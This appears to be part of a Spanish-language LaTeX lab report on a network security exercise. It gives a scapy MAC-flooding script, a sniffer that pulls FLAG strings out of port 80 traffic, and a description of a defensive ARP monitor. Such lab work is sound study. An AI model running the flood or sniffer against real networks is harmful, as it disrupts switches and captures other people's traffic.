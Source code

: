 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{lstlisting}[style=pythonstyle, caption={Fragmento principal de mac\_flood.py}]
from scapy.all import Ether, ARP, RandMAC, RandIP, sendp

def mac_flood(iface="eth0", count=1000, rate=100):
    """
    Inunda la red con tramas de MACs aleatorias.
    """
    for i in range(count):
        random_mac = str(RandMAC())
        packet = (
            Ether(src=random_mac) /
            ARP(
                op="who-has",
                hwsrc=random_mac,
                psrc=str(RandIP())
            )
        )
        sendp(packet, iface=iface, verbose=False)
\end{lstlisting}

\subsubsection{Captura y Env\'io de Flags}

\begin{lstlisting}[style=pythonstyle, caption={L\'ogica de captura de flags (capture\_flags.py)}]
from scapy.all import sniff, Raw
import re

FLAG_PATTERN = re.compile(r'FLAG\{[^}]+\}')

def packet_handler(packet):
    if packet.haslayer(Raw):
        payload = packet[Raw].load.decode('utf-8', errors='ignore')
        flags = FLAG_PATTERN.findall(payload)
        for flag in flags:
            print(f"[!] FLAG ENCONTRADA: {flag}")

# Capturar trafico HTTP (puerto 80)
sniff(filter="tcp port 80", prn=packet_handler, iface="eth0")
\end{lstlisting}

\subsection{Fase 4: Herramientas de Defensa (Blue Team)}

\subsubsection{Monitor ARP (arp\_monitor.py)}

El monitor ARP implementa un enfoque h\'ibrido de detecci\'on con dos modos operando simult\'aneamente:

\begin{itemize}[leftmargin=2cm]
    \item \textbf{Modo activo (ARP Polling)}: Env\'ia solicitudes ARP (\textit{who-has}) a los hosts conocidos cada 5 segundos y compara las respuestas con una l\'inea base de asociaciones IP-MAC leg\'itimas.
    \item \textbf{Modo pasivo (Sniffing)}: Captura tr\'afico ARP en la red y analiza cada paquete ARP Reply para detectar cambios en las asociaciones IP-MAC.
\end{itemize}
\end{document}
